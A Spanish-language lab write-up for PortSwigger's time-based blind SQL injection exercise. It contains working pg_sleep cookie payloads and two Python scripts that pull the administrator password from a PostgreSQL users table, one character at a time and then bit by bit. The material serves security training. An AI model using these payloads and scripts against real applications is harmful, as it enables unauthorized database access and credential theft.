 ```yaml
---
layout: default
title: Ejercicio práctico
permalink: /injection_types/blind/time_based_type/time_based_exercise
nav_order: 1
parent: 4.3 Basadas en tiempo
grand_parent: 4. Inyecciones ciegas
---
```


# Ejercicio practico de inyección ciega basada en tiempo

> Ejercicio basado en el laboratorio "Lab: Blind SQL injection with time delays and information retrieval" de Web Security Academy (PortSwigger).


## Consigna

Este laboratorio contiene una vulnerabilidad de inyección de SQL ciega. La aplicación usa una cookie de rastreo (*tracking*) para análisis y ejecuta una consulta SQL con el valor de esta cookie. 

Los resultados de la consulta SQL no se devuelven, y la aplicación no responde de manera diferente en función de si la consulta devuelve filas o causa un error. Sin embargo, dado que la consulta se ejecuta sincrónicamente, es posible activar retrasos de tiempo condicionales para inferir información.

La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`.

Para resolver el laboratorio, obtener el usuario y contraseña del usuario `administrator` e iniciar sesión con estas credenciales.

## Resolución manual + automatización con Python

Luego de un primer acceso a la aplicación y por sugerencia de la consigna, analizando las cookies se observa que figura una llamada `TrackingId` con un valor alfanumérico. Para modificarla en pedidos siguientes es pertinente usar un proxy de ataque como OWASP ZAP para practicidad.

Inicialmente podemos validar la existencia de la vulnerabilidad de cualquiera de las formas mencionadas en [4.3 Basadas en tiempo](/test-page/injection_types/blind/time_based_type/time_based_exercise) para cada tipo de base. Por lo que modificando `TrackingId` de la siguiente manera se puede validar la que resulta válida:

```
TrackingId=ggg'||(SELECT pg_sleep(5))--
```

De este *payload* válido se deduce que el DBMS es PostgreSQL y variando los segundos de demora en `pg_sleep` se logra inferir un tiempo lo más bajo posible **que no se confunda con una demora común** de respuesta. 

Antes de extraer la contraseña del administrador y es pertinente conocer la longitud de la misma. Basado en el ejemplo de demora condicional para PostgreSQL que se encuentra en la [SQL injection cheat sheet de PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet), este es un posible fragmento de SQL que funciona:

```sql
SELECT CASE WHEN (LENGTH(password)=1) 
    THEN pg_sleep(5) ELSE pg_sleep(0) END 
    FROM users WHERE username='administrator'
```

Reemplazándolo en la cookie:

```
TrackingId=ggg'||(SELECT CASE WHEN (LENGTH(password)=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
```

De esta manera solo se debe ir variando el número de largo comparado del número, manualmente o automatizado como se explica en los ejercicios anteriores (con *Fuzzer* de OWASP ZAP o *Intruder*/*Turbo Intruder* de Burp Suite). Como en los otros ejercicios, la longitud es 20.

Para extraer la contraseña, teniendo en cuenta que se conoce la tabla, las columnas y hasta el nombre del usuario, una forma simple y eficaz sería con el siguiente fragmento de SQL:

```sql
SELECT CASE WHEN SUBSTRING(password,%d,1)='%s' 
    THEN pg_sleep(5) ELSE pg_sleep(0) END 
    FROM users WHERE username='administrator')
```

Dado que el enfoque para automatizar la solución es con Python, en lugar de un número para posición del *substring* o un caracter a comparar con el *substring*, se utilizan los marcadores de posición `%d` y `%s` respectivamente. Esto permite sustituir con reemplazos de Python tales posiciones con valores reales de esos tipos de datos (`int` y `string`). De esta manera se puede ir probando entre las diferentes combinaciones en `%d` (para iterar entre cada posición de la contraseña del 1 al 20) y `%s` (para iterar sobre todas posibles opciones de caracteres alfanuméricos).

Para automatizar las consultas, el siguiente es un ejemplo de *script* básico en Python 3 en el que apoyarse:

```python
#!/usr/bin/python3
import requests,time,sys,string
# URL del laboratorio
url = 'https://LAB-ID.web-security-academy.net'
# Caracteres alfanuméricos (sin mayúsculas)
characters = string.ascii_lowercase + string.digits 
password = ""
cookie = ("XYZ'||(SELECT CASE WHEN SUBSTRING(password,%d,1)='%s' " 
    "THEN pg_sleep(2) ELSE pg_sleep(0) END " 
    "FROM users WHERE username='administrator')--")

print("[*] Iniciando SQLi")
# Posiciones de la contraseña del 1 al 20
for position in range(1,21): 
    for character in characters:
        cookies = { "TrackingId": cookie % (position, character) }
        time_start=time.time()
        requests.get(url, cookies=cookies)
        time_end = time.time()
        # Tiempo de respuesta mayor a 2 segundos (inyección exitosa)
        if time_end - time_start > 2:
            password += character
            sys.stdout.write(character)
            sys.stdout.flush()
            break

print("\n[+] Password: %s" % (password))
```

Para este ejemplo se tuvo en cuenta que la contraseña del administrador solo posee letras minúsculas y números. En un caso diferente, habría que incluir dentro de la lista `characters` todos los caracteres posibles para la contraseña (letras mayúsculas y caracteres especiales).


## Optimización con conversión binaria

La desventaja de iterar por lista de caracteres es que requiere una alta cantidad de consultas para probar todas las  posibles combinaciones, si bien se realiza mediante un *script* para automatizarlo, para optimizar la cantidad de consultas, es conveniente apoyarse en los consejos de optimización descritos en la sección [4.1 Inyeccion SQL ciega con respuestas condicionales](/test-page/injection_types/blind/conditional_type#optimizaciones).

La optimización de utilizar una conversión a binario del caracter a adivinar implica convertirlo primero a su representación numérica (con `ASCII()`), luego a *byte* con un *cast* (`::bit(8)`) y finalmente tomar bit por bit de ese byte resultante. Cada bit se compara con `0` o `1` y el resultado se acumula hasta completar 8 pedidos. Completado este proceso, se obtiene un byte que es directamente convertible a caracter.

La consulta condicional SQL pasa a ser:

```sql
SELECT CASE WHEN 
    SUBSTRING(ASCII(SUBSTRING(password,%d,1))::bit(8),%d,1)=0::bit(1)
```

El primer `%d` corresponde a la posición de caracter de contraseña (1 a 20) y el segundo a la posición de bit (1 a 8). El *script* modificado para reconstruir cada byte es el siguiente:

```python
#!/usr/bin/python3
import requests,time,sys
# URL del laboratorio
url = 'https://LAB-ID.web-security-academy.net'
password = ""
cookie = ("XYZ'||(SELECT CASE WHEN SUBSTRING(ASCII(SUBSTRING(password,%d,1))::bit(8),%d,1)=0::bit(1) "
    "THEN pg_sleep(2) ELSE pg_sleep(0) END "
    "FROM users WHERE username='administrator')--")

print("[*] Iniciando SQLi")
# Posiciones de la contraseña del 1 al 20
for position in range(1,21):
    byte = ""
    # Posiciones de bit del 1 al 8
    for bit_position in range(1,9):
        cookies = { "TrackingId": cookie % (position, bit_position) }
        time_start=time.time()
        requests.get(url, cookies=cookies)
        time_end = time.time()
        # Tiempo de respuesta mayor a 2 segundos (inyección exitosa)
        if time_end - time_start > 2:
            byte += "0"
        else:
            byte += "1"
    # Conversión del entero en base 2
    extracted_chr = chr(int(byte, 2))
    password += extracted_chr
    sys.stdout.write(extracted_chr)
    sys.stdout.flush()

print("\n[+] Password: %s" % (password))
```

